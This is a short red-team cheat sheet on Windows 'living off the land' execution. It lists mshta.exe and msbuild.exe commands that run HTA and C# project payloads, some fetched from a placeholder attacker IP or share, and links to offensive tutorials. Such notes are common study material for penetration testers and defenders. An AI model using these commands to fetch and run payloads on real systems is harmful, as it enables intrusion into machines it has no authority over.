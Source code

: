# Living off the Land

## 01 - MSHTA

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta

C:\> mshta.exe http[s]://<IP>/payload.hta
```

## 02 - MSBuild

Execute C# project payloads.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.xml
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET|Code Execution: MSBuild]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/HTA]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Ports/WebDAV|File Transfer and Data Exfiltration: Linux WebDAV Server]]

### DMCXBlue

- [DMCXBlue: HTA](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-infrastructure/weaponization/hta)

- [DMCXBlue: Links - HTA Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files)

### Cyber Security Corner

- [Cyber Security Corner: How to exploit Active Directory remotely by using MSBuild + Metasploit + Bloodhound](https://redblueteam.wordpress.com/2019/06/18/how-to-exploit-active-directory-remotely-by-using-unicorn-msbuild-metasploit-bloodhound/)